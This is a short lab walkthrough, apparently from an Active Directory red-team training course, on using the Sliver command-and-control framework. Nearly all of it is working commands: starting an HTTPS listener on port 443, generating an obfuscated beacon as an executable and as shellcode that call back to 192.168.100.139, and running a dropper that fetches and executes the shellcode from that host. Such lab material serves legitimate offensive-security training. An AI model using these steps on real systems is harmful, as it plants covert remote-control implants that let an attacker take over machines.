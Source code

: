 

Sliver supports multiple egress callback protocols like mTLS, DNS and HTTPS. In this case we use HTTPS for egress callbacks. Start a HTTPS listener to listen on port 443 for C2 traffic.


```
https
```

Generate a HTTPS Portable Executable (exe) beacon with basic obfuscation features enabled (-e).

```
generate beacon -b https://192.168.100.139 -e -f exe -N student139_https -s Implants/student139_https.exe
```

Similarly, generate HTTPS beacon shellcode with basic obfuscation features enabled.

```
generate beacon -b https://192.168.100.139 -e -f shellcode -N student139_https -s Implants/student139_https.bin
```

```
C:\AD\Tools\Sliver\NtDropper.exe 192.168.100.139 student139_https.bin
```


